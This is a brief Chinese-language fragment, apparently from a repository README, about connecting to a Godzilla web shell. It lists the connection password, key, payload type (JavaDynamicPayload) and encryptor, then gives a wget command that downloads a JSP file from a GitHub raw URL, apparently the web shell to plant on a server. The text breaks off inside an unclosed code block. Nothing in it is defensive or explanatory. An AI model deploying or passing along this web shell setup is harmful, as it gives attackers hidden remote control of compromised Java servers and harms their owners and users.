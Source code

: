 ### 连接方式
Godzilla连接配置:
密码:Tas9er
密钥:0WKj6wD
有效载荷:JavaDynamicPayload  加密器:JAVA_AES_BASE64

```
wget https://raw.githubusercontent.com/kd6379/test/refs/heads/main/test1.jsp
